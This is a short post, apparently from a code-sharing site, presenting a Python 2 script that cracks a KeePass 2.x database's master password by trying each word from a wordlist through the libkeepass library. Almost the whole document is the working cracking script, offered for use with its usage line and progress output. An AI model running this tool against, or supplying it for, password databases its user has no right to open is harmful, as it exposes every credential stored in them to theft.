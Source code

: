 ### Crack a Keepass password database master password using python lib keypass

He is a script I made to crack keepass2.x.x password database. 

```python

#!/usr/bin/env python2
#
# Made By SakiiR - source : https://blog.joshdawes.com/keepass-dictionary-attack/

import sys
import libkeepass

if len(sys.argv) < 3:
    print '[+] Usage : ./keepasscrack.py <wordlist> <keepassfile>'
    sys.exit(0)

i = 0
words = open(sys.argv[1]).read().split('\n')
l = len(words)
for word in words:
    if i % 100 == 0:
        print '[^] Processing .. {}/{} - {}%'.format(i, l, i * 100 / l)
    try:
        with libkeepass.open(sys.argv[2], password=word) as kdb:
            print '[+] FOUND ! ' + word
            sys.exit(0)
    except IOError:
        pass
    i += 1
```
